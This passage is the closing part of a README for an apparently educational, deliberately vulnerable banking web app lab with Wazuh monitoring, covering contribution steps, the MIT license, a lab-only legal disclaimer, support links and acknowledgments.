- [DVWA (Damn Vulnerable Web Application)](https://github.com/digininja/DVWA)
- [WebGoat](https://github.com/WebGoat/WebGoat)
- [Juice Shop](https://github.com/juice-shop/juice-shop)

---

## 🤝 Contributing

Contributions are welcome! Please follow these guidelines:

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request

### Contribution Ideas
- Add new vulnerability scenarios
- Improve Wazuh detection rules
- Add automated testing scripts
- Enhance documentation
- Create training modules

---

## 📄 License

This project is licensed under the MIT License - see below for details:

```
MIT License

Copyright (c) 2025 VulnBank Security Lab

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

---

## ⚖️ Legal Disclaimer

This software is provided for educational and research purposes only. By using this software, you agree:

- To use it only in authorized, isolated lab environments
- Not to deploy it in any production environment
- Not to use it for any malicious purposes
- That you are solely responsible for any consequences of using this software
- To comply with all applicable laws and regulations

The authors and contributors are not responsible for any misuse or damage caused by this software.

---

## 📞 Support

### Getting Help
- **Issues**: [GitHub Issues](https://github.com/yourusername/vulnbank-lab/issues)
- **Discussions**: [GitHub Discussions](https://github.com/yourusername/vulnbank-lab/discussions)
- **Email**: security-lab@example.com

### Community
- Follow for updates on security research
- Share your findings and improvements
- Contribute to making security education better

---

## 🏆 Acknowledgments

- OWASP Foundation for security guidelines
- Wazuh Team for SIEM capabilities
- Django Security Team for framework security
- Security research community

---

<div align="center">

**Made with ❤️ for Security Education**

⭐ Star this repository if you found it helpful!

[Report Bug](https://github.com/techchunk4/vulnbank-lab/issues) • [Request Feature](https://github.com/techchunk4/vulnbank-lab/issues) • [Contribute](https://github.com/techchunk4/vulnbank-lab/pulls)

</div>